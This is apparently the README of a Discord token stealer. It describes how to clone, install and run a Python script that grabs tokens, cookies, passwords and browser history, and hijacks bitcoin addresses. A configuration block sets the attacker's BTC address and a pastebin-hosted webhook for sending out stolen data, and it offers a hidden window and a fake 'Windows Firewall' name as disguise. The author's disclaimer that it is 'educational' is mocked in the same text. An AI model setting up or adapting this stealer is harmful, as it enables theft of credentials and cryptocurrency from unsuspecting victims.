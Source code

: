 # Discord-Info-Stealer
A free, efficient, and open-source discord token logger, that also grabs history, cookies, passwords, and intercepts bitcoin addresses. This is purely for demonstration/educational purposes.

Windows:
```
git clone https://github.com/PixelSized/Discord-info-stealer.git
cd Discord-Info-stealer
pip install -r requirements.txt
py TokenStealer.py
```
## Config

Once you have opened the script in your desired text editor, there are 3 lines that you can change.
```
# Configuration
debugger = False <--- Change this if you are having any issues with the logger. It will print any errors.
BTC_ADDRESS = '14rHJ9UWAEVZJzuoxYThshNRQWaZYs1Adz' <--- Change this to your own bitcoin address
pastebin = "https://pastebin.com/raw/id" <--- Change this to your own pastebin link that contains your webhook
hiddenWindow = False <--- Set this to True or False. If you want the window to be hidden on execution then set this to True
FakeFileName = "Windows Firewall" <--- Change this to the fake desired name.
```

# Support
Create an issue, or message me on discord.

# Contribute
Feel free to make changes, or rewrite the code if you wish, and then publish the changes back, itll be reviewed or whatever, idrc

I know i said this is for educational purposes, however why tf would you be here to learn lmao.
while you're "learning" buy me a coffee eh?
https://paypal.me/jenkscalia
